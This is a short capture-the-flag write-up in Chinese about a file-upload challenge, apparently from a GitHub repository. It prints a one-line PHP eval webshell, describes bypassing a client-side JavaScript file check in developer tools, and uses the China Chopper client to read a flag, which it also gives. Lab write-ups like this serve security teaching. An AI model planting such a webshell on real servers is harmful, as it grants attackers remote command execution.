




## 解题思路

- 题目需要上传一个`webshell`到服务器，但是前端有 JS 校验，导致只能上传图片<br>

    - `hack.php`
    ```bash
    <?php @eval($_POST['hack']);?>
    # hack 为菜刀连接使用的密码
    ```
- 使用开发者工具删除`onsubmit`中调用`checkFile()`函数的过程，然后就可以直接上传 PHP 文件<br>

- 打开菜刀，添加 SHELL <br>

- 连接后，在`www`目录下可以看到名为`key`的文件<br>

- 内容即为 FLAG：`key{K735c9f0D7ddc3b9}`